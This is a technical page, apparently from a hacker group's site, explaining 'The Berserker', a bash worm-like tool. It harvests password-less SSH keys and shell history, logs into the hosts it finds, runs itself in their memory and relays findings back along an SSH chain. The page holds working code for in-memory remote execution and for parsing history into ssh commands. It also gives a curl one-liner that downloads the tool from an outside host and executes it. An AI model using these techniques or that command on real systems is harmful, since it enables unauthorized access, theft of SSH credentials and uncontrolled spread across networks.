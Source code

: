 ```yaml
---
layout: default
title: The Berserker / How it works
description: Technical details about how The Berserker works.
---
```


<!-- {:refdef: style="text-align: center;"}
## **A recursive, non-intrusive and ephemeral tool to find password-less private ssh-keys and build a hierarchical tree of reachable hosts**
{: refdef} -->

Random notes on how [The Berserker](../) works.

## Executive Summary

[The Berserker](../) is a bash script. At this point the reader either has a heart attack or multiple orgasms. There is no in-between.

## General

The Berserker looks for any passwordless private ssh-key in `~/.ssh` and then gathers information from the User's shell history (`~/.bash_history`, `.zsh_history` and `~/.history`) about any host the User connected to in the past. The Berserker then attempts to log into each host and injects itself into the remote's bash memory. It executes itself on the remote host and continues to do its deeds.

It keeps doing so until all ssh keys have been used and all hosts have been visited.

**Example**: User `alice` starts The Berserker on host `Earth` (the *origin*). The Berserker finds Alice's ssh-key and detects (from Alice's shell history) that `alice` frequently connects to `Mars` (as alice) and `Jupiter` (as root). The Berserker first connects to `Mars` and executes itself on `Mars`. Let's assume The Berserker finds no further ssh-keys on `Mars` and so it will not spread beyond `Mars`. Next it connects from `Earth` to `Jupiter`. It's a root login to `Jupiter` and The Berserker finds many ssh-keys from various users. One such user is `bob` who frequently connects to `Uranus` and from there to `Pluto`. Ultimately The Berserker will get to `Pluto` via a long ssh chain from `Earth`->`Jupiter`->`Uranus`->`Pluto`.

At this point the educated reader will realise that The Berserker is *deep penetrating* `Uranus`, e.g. `Uranus` gets owned even if firewalled or not being accessible from the Internet (but accessible from `Jupiter`).

Berserker implements a text-based communication protocol via the stdin/stdout ssh-chain to send its findings back to `Earth` (the *origin* where The Berserker started).

## Bash In-Memory execution

Bash has this tremendous ability to load a script from a memory location and without the script needing to be stored on the target host.

```shell
cat >e.sh<<__EOF__
#! /bin/bash
echo "Hello '\$USER'"
__EOF__
S="$(cat e.sh | sed 's/\x27/\x27"\x27"\x27/g')"
ssh user@host.com "export SCRIPT='$S'; bash -c \"\$SCRIPT\""
```

1. Create a bash script named `e.sh`.
1. Slurp the content into the variable `$S` after converting all `'` to `'"'"'`. That's a bit freaky but hold your beer.
1. I use the hex notation (`\x27`) of `'` here or otherwise it would look rather complicated (`sed` needs the `'` escaped so it is double-escaping time): `S="$(cat e.sh | sed 's/'"'"'/'"'"'"'"'"'"'"'"'/g')"`. Most readers would commit suicide at this point. This is just to escape `'` correctly so that it can be passed to `ssh` as a command via a variable (`SCRIPT='$S'`) without interfering with the `'` around the `$S`.
1. The long string `export SCRIPT='$S'; bash -c \"\$SCRIPT\"` is passed as a command to `ssh` to execute on the remote host. Note that the `$` in `\"\$SCRIPT\"` is escaped to prevent the local shell from substituting the variable. We like the remote bash (not the local one) to substitute `$SCRIPT`. This is only needed because The Berserker needs to access the source of its own script (now stored in `$SCRIPT` to spread to further hosts). Otherwise `bash -c '$S'` would work.

No data is written to the target's host hard drive. All is kept in memory.

SSH has a 128k limit for passing arguments. *That ought to be enough for everyone*. Otherwise have a look how this limitation is overcome in [ssh-it's hook.sh](https://github.com/hackerschoice/ssh-it/blob/main/src/hook.sh) (piping a script with `dd` into a remote bash variable and executing the string from memory is a thing....).

## Bash Command line parsing

There is no efficient way to convert a command line string from `~/.bash_history` to an array in bash.

The history file contains the recently *typed* commands rather then the *executed* commands. There is a fine difference. Bash records the input rather then what's passed to exec(2) system call. Let's illustrate the problem:

```shell
ls foo\ bar
```

The bash records `ls foo\ bar` rather than what it actually executes (`exec("ls", "foo bar")`; note the missing `\`). This is a problem if there are history entries containing bash variables or escape sequences like `$HOME` or `\ ` in the file name:

```shell
ssh -i $HOME/.ssh/id_dsa\ key.dat root@openbsd.org
```

The command actually executed is `exec("ssh", "-i", "/home/user/.ssh/id_dsa key.dat", "root@openbsd.org")` and from the string above it's impossible to determine which argument is passed as 1st, 2nd or last parameter to exec(2) - only bash knows.

The program `xargs` comes to the rescue to split the command line string into separate ARGV arguments the same way as bash would do. However, xargs executes another program (with the correctly split arguments). So we used `xargs` to call `bash -c` and output each command line argument in a separate line and then convert this into a bash array:

```shell
line="$(echo "ssh -i ~/.ssh/id_dsa\ key.dat root@openbsd.org" | xargs bash -c 'n=0; while [[ $n -le ${#} ]]; do eval eval echo "\$${n}"; n=$((n+1)); done')"
```

The variable `line` now contains:

```
ssh
-i
/home/user/.ssh/id_dsa key.dat
root@openbsd.org
```

Note: The double `eval eval` is needed. The first one convert the `${#}` to the integer number of the arguments passed to the bash by `xargs` and the second `eval` resolves the `~/` to the absolute directory name.

That format can now easily be split into an array like so:

```shell
IFS=$'\n' MyArray=($line)
```

We can add this into a nice bash function and have the bash-array returned by *pointer* (yes, bash can do pointers):

```shell
bash -l
cat >test.sh<<__EOF__
cmdline2array()
{
	local line
	# Double eval: 1st: To turn \$1 to argument string. 2nd to turn ~/.ssh to /home/user/.ssh
	line="\$(echo "\$2" | xargs bash -c 'n=0; while [[ \$n -le \${#} ]]; do eval eval echo "\\\$\${n}"; n=\$((n+1)); done')"
	# echo "LINES=\$line"
	IFS=$'\n' eval "\${1}=(\\\$line)"
	IFS=" "
}
__EOF__

# Now calling this function will store the arguments as array in 'MyArray':
source test.sh
cmdline2array MyArray "ssh -i ~/.ssh/id_dsa\ key.dat root@openbsd.org"
echo "Number of elements in MyArray: ${#MyArray[@]}"
# The output is '4'
echo "Content: ${MyArray[*]}"
# The output is: ssh -i /home/user/.ssh/id_dsa key.dat root@openbsd.org
```

 * Note how the *string* `MyArray` is passed as a function parameter (followed by the ssh command). Inside the function we use `eval` on that string to 'turn' the string-name (`MyArray`) into a bash variable. And that is how you (efficiently) pass one or more return values from the function back to the caller.

## Bash stderr and $? catching

The Berserker needs to check the error output of `ssh` _and_ also needs the exit-code of `ssh` _and_ the standard output must pass through. The only way to do this in bash is to play file descriptor bonanza:

```shell
{ err="$( { echo 1>&2 "Hello-STDERR"; exit 123; } 2>&1 1>&3 3>&- )"; } 3>&1 || ret=$?
echo "ret=$ret, err=$err"
```

* The `echo 1>&2 "Hello-STDERR";` generates some test output to STDERR.
* The `exit 123;` is some test exit code (123).

The output is `ret=123, err=Hello-STDERR`.

## Transport Protocol via STDIN/STDOUT

All the slaves need to report back their findings to `Earth` (the *origin*). A simple protocol is used to pass the information from the farthest `ssh` back to the *origin* (via a long chain ssh-stdin-chain). In our example from above `Pluto` would pass the message back to `Uranus`, `Uranus` back to `Jupitor`, ... to `Mars`, ... to `Earth`. All protocol messages are then dispatched at the *origin* in `msg_dispatch()`. The protocol messages are rather simple and you can see them by forcing the *origin* to be a slave with `BS_DEBUG_IS_SLAVE=1`:

```shell
export BS="$(curl -fsSL ssh-it.thc.org/bs)" && bash -c "BS_DEBUG_IS_SLAVE=1 $BS"
```

The output will look similar to this:

```
|I|0|76672d|[#1] ~/.ssh/id_rsa
|I|0|76672d|[#2] ~/.ssh/id_rsa-old
|T|0|76672d|admin@192.168.1.1|1/112
|O|0|76672d|
|L|1|437048|76672d|admin|ubnt
|C|0|76672d|~/.ssh/id_rsa
|T|0|76672d|pi@192.168.1.18|3/112
|O|0|76672d|
|L|1|39a307|76672d|pi|raspberrypi
|I|1|39a307|Found 1 hosts to try.
|I|1|39a307|Found 1 key without password.
|I|1|39a307|[#1] ~/.ssh/id_rsa
```

## If you are reading this...

If you made it all the way to here then you are the type of person we like to hang out with. Join us on [Telegram](https://t.me/thcorg).

## Contact

{% include contact-details.md %}
